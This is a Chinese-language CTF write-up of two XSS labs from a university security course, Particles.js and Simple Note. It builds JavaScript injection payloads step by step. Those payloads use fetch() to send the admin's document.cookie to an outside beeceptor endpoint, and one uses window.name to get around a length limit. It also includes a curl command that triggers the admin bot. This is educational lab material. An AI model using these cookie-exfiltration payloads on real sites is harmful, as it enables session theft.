


# 2022 交大程式安全 HW10 writeup

## [LAB] Particles.js
題目如下

選單可以選擇不同的主題，會以 config 參數來設定


而 Report 按鈕會把隱藏在頁面中的 \<input> 裡的 url 值當作參數送出 post request
\<input> 裡的 url 值會是頁面本身的網址

然後回傳頁面

另外，也發現頁面中 \<script> 裡的 js 程式碼會跟 config 參數值一樣


config 設成 test

這邊可以對 config 的值動手腳，在後面加上反斜線 escape 掉單引號
```html
?config=test\
```
於是 config.value 的值會變為到下一個單引號前

這時 config.value 的字串值後面會是除法的運算子，必須要讓除法運算成立\
所以在 test 前面加上 ```2;``` 讓字串除以 2 的運算成立，並用分號結束掉
```html
?config=2;test\
```

接下來用 // 註解掉 test 和後面同一行的程式碼，也就是到 ```json => {```
並且要讓換行之後的程式碼成立，所以插入了 ```console.log({x:```
```html
?config=2;console.log({x://test\
```

最後就能在中間插入想要執行的 js，達成了 XSS，例如插入 alert(1)
```html
?config=2;alert(1);console.log({x://test\
```

成功觸發 alert(1)

而這題的 FLAG 放在 admin 的 cookie 裡，要利用 XSS 和 Report 拿到 admin 的 cookie\
由於 Report 時帶的 url 參數值會是頁面本身的網址\
所以只要在網址裡構造一個可以拿到 cookie 的 XSS 後，接著 Report 出去\
server 端就會在 server 上發送該網址的請求，拿到的 cookie 就會是 admin 的\
這時只要將拿到的 cookie 傳到別的地方就行了，例如一個自架的 web server\
所以這邊會使用 beeceptor 之類的服務 (https://beeceptor.com)，它可以用來當作是簡易的 web server 接收請求\
於是建立一個 server 端點 https://yungping.free.beeceptor.com

測試看看，連到 https://yungping.free.beeceptor.com/?FLAG=test

成功收到請求中帶的參數值

構造 XSS，把原本插入的 alert(1) 改為用 fetch 發送請求到自己建立的 server 端點\
以及用 document.cookie 將 admin 的 cookie 帶到參數裡
```html
?config=2;fetch("https://yungping.free.beeceptor.com?"+document.cookie);console.
log({x://test\
```
由於加號在 url 會被吃掉，所以要改成 %2b\
(參考資料：https://www.w3schools.com/tags/ref_urlencode.ASP)
```html
?config=2;fetch("https://yungping.free.beeceptor.com?"%2bdocument.cookie);console.
log({x://test\
```
連到這網址後，然後按 Report 按鈕

成功得出 flag 為 ```FLAG{S1mPl3_X5s}```
## [LAB] Simple Note
題目如下，可輸入 title 和 content 然後提交


而 Report 也是跟上一題一樣，會把當前頁面的網址當作 url 參數的值送出

然後回傳頁面

如果 content 輸入 ```123<script>alert(1)</script>``` 的話，不會被轉換為 HTML tag


觀察 source code 後可以知道因為這邊的 content 是用 innerText\
innerText 會先去做 HTML 的 encode，所以這裡無法 XSS\
不過 title 的話是用 innerHTML，乍看之下會覺得可以插入 XSS 的 payload\
但是實際測試 title 輸入 ```asd<script>alert(1)</script>```，會發現雖然 payload 有填進去，卻不會執行


這個是因為在 spec 裡有明確指出，被插入到 innerHTML 裡的 \<script>\</script> 內容不會被執行\
參考資料：https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML

不過 spec 裡也有說可以用這個來達成 XSS
```html
"
```
實際測試，確實有跳 alert(1)\
但接下來想構造 XSS 的時候卻發現 title 有長度限制，除了前端的文字輸入欄有限制之外\
即使用 curl 指令硬送，它也會回傳長度過長的 error\
這時就可利用一個技巧，使用 ```window.name``` 變數\
只要瀏覽器還在同一個視窗裡，```window.name``` 的值就能被帶過去\
於是就可用
```html

```
並在 F12 裡面將 ```window.name``` 設為 alert(1)，這時重新進入頁面時就會觸發 alert(1)

因此在構造 XSS 的 payload 時，可以利用這方式來繞過輸入字數的限制

開一個自架的 web server，我這邊一樣是用 beeceptor\
按右上啟用規則，並且按 Mocking Rules 修改規則

按紅框的按鈕修改設定

將 Response headers 修改成
```html
{
  "Content-Type": "text/html"
}
```
將 Response body 修改成
```html
<script>
window.name="fetch('https://yungping.free.beeceptor.com?'+document.cookie)"
location="https://note.ctf.zoolab.org/note/3b337e65dbfe479081b38569"
</script>
```
location 就是前面輸入完 title 和 content 按提交後的 note 頁面網址，最後按 Save Rule

改完設定後，當連到 https://yungping.free.beeceptor.com 的時候，它會先設定 ```window.name``` 的值\
這邊跟上一題一樣，FLAG 藏在 admin 的 cookie 裡，因此使用相同的手法\
接著將頁面跳轉到 note 頁面網址\
由於 ```window.name``` 的值會被帶過去，所以此時 ```window.name``` 裡的 fetch 也會執行

最後，只要送出 Report 時的 url 參數值設為 https://yungping.free.beeceptor.com
server 端就會送出 https://yungping.free.beeceptor.com 的請求\
上述的過程就會被執行，就能拿到 admin 的 cookie
```sh
curl https://note.ctf.zoolab.org/report -d 'url=https://yungping.free.beeceptor.com'
```


成功得出 flag 為 ```FLAG{St0r3_y0Ur_p4y104d_s0mW3re}```
## [HW] TodoList
